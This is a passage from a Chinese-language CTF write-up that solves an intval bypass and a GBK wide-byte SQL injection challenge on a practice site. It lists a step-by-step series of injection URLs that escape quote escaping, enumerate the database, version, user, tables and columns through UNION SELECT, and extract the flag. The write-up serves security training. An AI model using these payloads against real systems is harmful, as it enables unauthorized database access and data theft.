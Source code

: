 根据代码内容可知文件名 sql.php ， id 不能等于 1024，说明 id 等于 1024 的记录即答案， 发现前面有 intval 函数，输入 id = 1024.1 即可获得 Flag。

## 0x0D [GBK Injection](http://chinalover.sinaapp.com/SQL-GBK/index.php?id=1)

参考： http://www.2cto.com/article/201209/153283.html

提示： your sql:select id,title from news where id = 1'

输入引号发现被转义为 \' 的格式，构造 %fe%27 后变为 %fe%5c %27 的格式，即可闭合前面的参数。

1. 构造 `index.php?id=1%fe%27and%201=1%23`

   正常返回。

2. 构造 `index.php?id=1%fe%27order%20by%202%23`

   确定字段数为 2，这里其实可以通过页面上的 select 语句直接确定。

3. 构造 `index.php?id=1%fe%27and%201=2%20%20union%20select%201,2%23`

   返回的是第二个字段即 title 字段。

4. 构造 `index.php?id=1%fe%27and%201=2%20%20union%20select%201,database()%23`

   爆数据库名，为 sae-chinalover

5. 构造 `index.php?id=1%fe%27and%201=2%20%20union%20select%201,version()%23`

   获取数据库版本 5.5.52-0ubuntu0.14.04.1

6. 构造 `index.php?id=1%fe%27and%201=2%20%20union%20select%201,ord(mid(user(),1,1))%23`

   用户名为 sae-chinalover@123.125.23.211

7. 构造 `index.php?id=1%fe%27and%201=2%20%20union%20select%201,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=0x7361652d6368696e616c6f766572%23`

   得到表名 ctf,ctf2,ctf3,ctf4,gbksqli,news

8. 构造 `index.php?id=1%fe%27and%201=2%20%20union%20select%201,group_concat(column_name)%20from%20information_schema.columns%20where%20table_name=0x637466%23`

   | 列名    | 字段 1 | 字段 2  | 字段 3 |
   | ------- | ------ | ------- | ------ |
   | ctf     | user   | pw      |
   | ctf2    | id     | content |
   | ctf3    | id     | email   | token  |
   | ctf4    |        |         |
   | gkbsqli | flag   |         |

找了半天。。终于找到 flag 了

9.  构造 `index.php?id=1%fe%27and%201=2%20%20union%20select%201,flag%20from%20gbksqli%23`

    获得 Flag
